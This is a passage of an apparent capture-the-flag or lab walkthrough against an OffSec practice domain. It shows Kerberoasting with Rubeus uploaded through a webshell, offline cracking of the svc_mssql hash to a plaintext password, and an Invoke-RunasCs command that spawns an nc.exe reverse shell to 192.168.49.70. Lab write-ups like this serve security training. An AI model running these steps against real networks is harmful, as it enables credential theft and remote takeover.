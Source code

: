 We can see that this account is configured with a "serviceprincipalname" or SPN. Armed with this information, we can perform a kerberoasting attack.

### Kerberoasting

Rubeus to acquire the the TGS of the user `svc_mssql` and then use hashcat or JohnTheRipper to crack the hash.

A compiled version of Rubeus.exe can be found at https://github.com/r3motecontrol/Ghostpack-CompiledBinaries. Let's download this executable and upload it to the target using our webshell. We can then execute it and obtain the hash for the service account.

```
PS C:\xampp\htdocs\uploads> ./Rubeus.exe kerberoast /nowrap
```

```
[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.
[*] Target Domain          : access.offsec
[*] Searching path 'LDAP://SERVER.access.offsec/DC=access,DC=offsec' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1
[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MSSQL,CN=Users,DC=access,DC=offsec
[*] ServicePrincipalName   : MSSQLSvc/DC.access.offsec
[*] PwdLastSet             : 5/21/2022 5:33:45 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : xxx
```

Using JohnTheRipper and the /usr/share/wordlists/rockyou.txt wordlist, we discover that password for svc_mssql is trustno1.

### RunAsCs
Next we will use RunAsCs to get shell as svc_mssql on the target. Let's grab a copy of Invoke-RunasCs.ps1 from the repository and upload it to the target by using the webshell.

In our shell on the target system, let's import the Invoke-RunasCs finction and then test it by running whoami.
```
PS C:\xampp\htdocs\uploads> import-module .\Invoke-RunasCs.ps1
import-module .\Invoke-RunasCs.ps1
PS C:\xampp\htdocs\uploads> Invoke-RunasCs svc_mssql trustno1 whoami
Invoke-RunasCs svc_mssql trustno1 whoami
access\svc_mssql

PS C:\xampp\htdocs\uploads> Invoke-RunasCs svc_mssql trustno1 'c:/xampp/htdocs/uploads/nc.exe 192.168.49.70 7891 -e cmd.exe'
```

### Now on access\svc_mssql
https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#sebackupvolume
